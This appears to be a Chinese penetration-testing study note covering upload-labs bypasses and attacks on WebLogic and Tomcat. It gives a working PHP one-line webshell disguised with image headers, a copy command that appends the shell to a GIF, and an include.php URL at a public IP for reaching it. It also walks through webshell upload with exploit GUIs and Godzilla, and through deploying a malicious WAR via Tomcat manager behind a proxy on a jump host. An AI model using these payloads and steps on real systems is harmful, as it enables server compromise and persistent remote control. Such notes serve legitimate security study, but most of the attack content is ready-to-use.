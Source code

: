 ### pass13、pass14、pass15
要制造图片马，这里可以使用 yakit 给一句话木马添加图片头
```
------WebKitFormBoundaryhOLXPRsLUETYPM5H
Content-Disposition: form-data; name="upload_file"; filename="pass13.jpg"
Content-Type: application/octet-stream

{{jpg()}}--<?php eval($_POST["pass"]);?>
```
发送成功后网页会返回上传文件的地址 `../upload/9620250412061349.jpg`
连接时要使用 include.php 这个入口来包含文件。可以直接用蚁剑来连接。
`http://116.196.112.253:20080/include.php?file=upload/9620250412061349.jpg`

pass14和15是一样的，将yakit的图片头换成 `{{png()}}--<?php eval($_POST["pass"]);?>`，`{{gif()}}--<?php eval($_POST["pass"]);?>`即可

### pass16 二次渲染绕过
看代码会发现上传的图片被服务器重新渲染修改了，jpg 和 png 逆向改动有些麻烦，看教程说 gif 相对容易，可是还是没搞定。
这里只使用 windows 的 copy 命令成功将木马添加在了图片的末尾（不能用powershell，只能用cmd）：
`copy /b test.gif + pass.php pass.gif`
但是根据教程修改下载下来的 gif 的 hex 后，服务器认为不是 gif 文件了。

### pass17-20 太麻烦了，不想搞了

## sql 注入
使用 sqlmap，需要改造

## 命令执行漏洞

## 渗透测试流程

信息收集 -> web漏洞扫描/服务器漏洞挖掘 -> 人员信息收集/C段、同IP、子域名主机安全检测 -> 漏洞整理、报告生成

## 攻击 WebLogic 服务
1. 使用 fscan 扫描漏洞类型
`.\fscan.exe -u http://116.196.112.253:7002/`
2. 使用 WeblogicExploit-GUI 上传 webshell
选择漏洞类型，都可以试试，可以使用“注入内存马”，也可以使用“一键写入webshell”，然后根据选择的工具连接目标机
2.1 蚁剑（功能较少，只能查看目录和文件）
根据 WeblogicExploit-GUI 的提示添加 url，选择 Custom 类型即可。
2.2 哥斯拉 GodZilla（功能较多，能上传，能发命令）
根据 WeblogicExploit-GUI 的提示添加 url，修改密码，秘钥不改，有效载荷改为 jsp
2.3 冰蝎 Behinder
根据 WeblogicExploit-GUI 的提示添加 url

## 攻击 Tomcat 服务
1. 使用 Godzilla 生成 war 包
管理 -> 生成 -> Java -> 生成， 保存为 attack.jsp
2. 生成 war 包
```
'C:\Program Files\Java\jdk-21\bin\jar.exe' -cvf .\attack.war *
```
3. 在 manager 页面上传 war 包
`http://172.19.0.2:8080/manager/html` 上传 war 包后部署
4. 访问部署的 jsp 文件
`http://172.19.0.2:8080/attack/attack.jsp`，空白页表示上传并部署成功。
5. 使用 Godzilla 连接
目标 -> 添加
url: `http://172.19.0.2:8080/attack/attack.jsp`
如果使用了代理可以根据实际情况添加代理：（如果是跳板机，可以在跳板机上使用 frp 启动代理）
代理主机：116.196.112.253